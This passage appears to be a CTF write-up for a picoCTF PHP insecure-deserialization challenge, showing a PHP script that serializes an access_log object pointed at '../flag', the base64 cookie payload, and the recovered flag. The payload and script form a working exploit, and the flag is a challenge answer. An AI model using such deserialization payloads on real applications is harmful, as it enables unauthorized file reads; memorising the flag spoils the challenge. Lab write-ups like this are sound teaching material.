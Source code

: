 + access_log 物件帶上 `../flag` 的序列化
```php=
<?php
class access_log
{
    public $log_file;

    function __construct($lf)
    {
        $this->log_file = $lf;
    }

    function __toString()
    {
        return $this->read_log();
    }

    function append_to_log($data)
    {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log()
    {
        return file_get_contents($this->log_file);
    }
}

// 創建 access_log 物件
$accessLog = new access_log("../flag");

// 序列化 access_log 物件
$serializedData = serialize($accessLog);

// 輸出序列化後的資料
echo $serializedData;
?>

```
`O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`


+ base64 encode serialization,and set to cookie `{'login':'TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9'}`

+ 然後server就掛了
![image](https://hackmd.io/_uploads/BJLIuhjt6.png)

+ `<url>/authentication.php` , set cookie 就有了

`Flag` : picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}
`REF` : https://ctftime.org/writeup/27162


